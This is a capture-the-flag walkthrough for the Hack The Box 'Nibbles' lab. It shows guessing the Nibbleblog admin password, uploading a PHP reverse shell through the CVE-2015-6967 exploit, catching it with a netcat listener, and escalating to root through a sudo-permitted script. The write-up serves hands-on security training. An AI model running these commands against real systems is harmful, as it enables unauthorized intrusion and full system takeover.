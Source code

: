 + Navigate to `http://10.10.10.75/nibbleblog/admin.php`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d59f8eef-f1b5-44a1-aa5c-d8a9f030b0f3)

+ Navigate to `http://10.10.10.75/nibbleblog/content/private/users.xml`
+ Navigate to `http://10.10.10.75/nibbleblog/content/private/config.xml`
+ **admin** user found. 
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7a644a06-2448-41d7-99e9-590043555368)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a23156d6-1ba7-4663-b09c-8fc24208004c)

+ Login `http://10.10.10.75/nibbleblog/admin.php`, and try default passwords.
+ Default tries like admin:admin, admin:pass and nibbles:nibbles don't work. Instead, `admin`:`nibbles` works.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4033177a-6eca-4f2c-917e-9ff4003418a3)

## Gaining Access
+ `searchsploit nibble 4.0.3`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5d5e4952-3dc6-44ea-aa6e-d2e2a30269ac)

+ Use [CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967)

+ `cp /usr/share/webshells/php/php-reverse-shell.php shell.php`
+ Change ip address and port number to your attack machine.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/25f418ba-986a-44b0-9708-61663df3c527)

+ Start netcat listener: `nc -lnvp 5555`
+ Run exploit:
```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

+ Stable shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74939561-8d9a-4e2a-9f24-8b5661abd10a)

## Privilege Escalation
+ `sudo -ll`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0dcbc002-98b1-46f4-8363-778c5a22622b)

```
#!/bin/sh
bash
```

+ Get root.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/905a5a63-bb34-4ce0-805e-bd44d6d8ccfc)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2b882521-2b36-4314-9a10-ca2394f638ac)

---